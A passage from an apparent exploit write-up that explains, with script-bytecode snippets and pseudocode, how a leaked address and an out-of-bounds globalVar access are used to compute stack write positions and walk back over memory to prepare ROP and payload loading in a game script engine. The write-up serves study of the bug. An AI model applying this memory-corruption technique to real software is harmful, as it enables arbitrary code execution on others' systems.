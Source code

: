 These pops do nothing except reduce the index. So it's useful for getting back to the stack without harming it.

```asm
pushVar. globalVar,leakedAddress
pushShort. 0x2B4
subi.
setVar globalVar,mscStackAddress
pushInt. writePosition
pushVar. globalVar,mscStackAddress
subi.
pushShort. 4
divi.
setVar globalVar,calculatedStackPosition
```

This is essentially
```clang
mscStackAddress = (leakedAddress - 0x2B4);
calculatedStackPosition = (writePosition - mscStackAddress) / 4;
```
Where writePosition is our hardcoded absolute write address that I define at the beginning of the script. Essentially this will take our leaked address we got earlier and use it to calculate the stack index needed to write there.

Now there is one more thing I do here, and this isn't needed for ROP but it is needed for using this to load a payload (in this case a user-defined string).

```asm
pushShort. 0x1
pushShort. 0x2
... (etc)
pushShort. 0x7f
pushShort. 0x80
```

Let's push 128 more integers onto the stack again for overwriting the stack index again.

```asm
pushInt. -0x8A
setVar globalVar,mscScriptAddress
pushVar. globalVar,mscScriptAddress
```

Here we are jumping to a negative address which puts us right before the global vars, which is (if you look back at my structure layout chart earlier) the address of the script. Then we store that for later, so we can safely use it for arithmetic again.

```asm
pushVar. globalVar,0x0
pushVar. globalVar,0x1
... (etc)
pushVar. globalVar,0x88
pushVar. globalVar,0x89
```

This part is pretty neat because it is using the aforementioned globalVar out of bounds access bug in order to safely make our way back to the stack. Unlike moving down the stack with `pop` we can't move up towards the stack without overwriting something. We can use this to write our way back over our global vars and the data between them and the stack without potentially breaking smoething.
